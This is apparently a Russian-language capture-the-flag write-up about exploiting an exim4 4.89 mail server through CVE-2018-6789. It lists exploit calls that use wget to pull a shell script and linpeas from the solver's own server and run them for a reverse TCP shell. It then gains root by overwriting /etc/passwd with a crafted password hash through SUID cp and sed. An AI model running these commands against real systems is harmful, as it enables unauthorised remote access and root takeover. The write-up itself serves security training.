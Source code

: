 # Давно всем известная уязвимость

Кажется почта сконфигурирована некорректно

# WriteUp

Засканив nmap`ом мы обнаруживаем, что на сервере крутится exim4 версии 4.89.

Под который давно имеется exploit (CVE-2018-6789)|

Подробнее можно почитать [Команда упасть](https://xakep.ru/2018/05/07/exim-4-exploit/)

Тут приложен [exploit](exp.py)

Дополнительный файл с [шеллом](shell3)

Последовательность использования команд в эксплоите

1. **threaded_brute_force(0x10)** - после успешного нахождения смещения его нужно указать в следующих командах
2. **execute_command(0x3ae(заменить на ваше смещение), "/usr/bin/wget -O /tmp/s3 http://ваш ip-адрес/shell3")**
<br>**execute_command(0x3ae(заменить на ваше смещение), "/usr/bin/wget -O /tmp/linpeas.sh http://ваш ip-адрес/linpeas.sh")**
<br>**execute_command(0x3ae(заменить на ваше смещение), "/bin/bash /tmp/s3")** - тут установиться **reverse tcp** (соединение может обрываться, необходимо перезапускать данную команду)

Не забываем поднять у себя **http** сервер, где будут лежать **shell** и **linpeas**


3. Последовательно выполняем данные команды

**cd /tmp && sh linpeas.sh**

**linpeas** - выведет нам, что на командах **cp** и **sed** есть **suid** права.

**cp /etc/passwd . && var="root:\$1\$bitch4\$xr74XTCV39\/WpLloi2f.50:0:0:root:\/root:\/bin\/bash" && sed -i "1s/.\*/$var/" passwd && cp passwd /etc/passwd**

**echo "import pty; pty.spawn('/bin/bash')" > /tmp/asdf.py**
<br>**python /tmp/asdf.py**

**su root**

Флаг лежит в директории **/root**

**/root/.fl4g**


# Flag
RDGCTF{kakoy-to_flag}
